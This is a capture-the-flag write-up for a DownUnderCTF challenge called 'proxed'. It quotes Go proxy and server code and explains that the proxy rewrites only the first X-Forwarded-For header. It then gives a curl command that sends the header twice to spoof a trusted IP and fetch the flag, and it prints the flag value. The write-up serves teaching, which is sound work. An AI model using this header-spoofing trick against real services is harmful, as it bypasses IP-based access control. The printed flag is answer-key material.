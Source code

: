 Similar to the beginners version, but this time there's a proxy server up front, which I think prunes the `X-forwarded-for` header trick that worked for the first one, based on this code fragment:

```go

	for i, v := range headers {
		if strings.ToLower(v[0]) == "x-forwarded-for" {
			headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
			break
		}
	}
```

However, in the "secret server", by itself, that old exploit could still work if we somehow shoved it past the proxy:
```go
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
```

Now I'm not entirely sure how this works, but I was able to get the flag by `curl` request and passing the same `X-Forwarded-for` header **twice**, like so:

`curl -H "X-forwarded-for: aksldksaj" -H "X-forwarded-for: 31.33.33.7" http://actually.proxed.duc.tf:30009`

And this gave back the flag

I believe this works because the "pruning" code mentioned above only prunes the first instance of this header, due to the subsequent `break` statement.

Flag: `DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}`


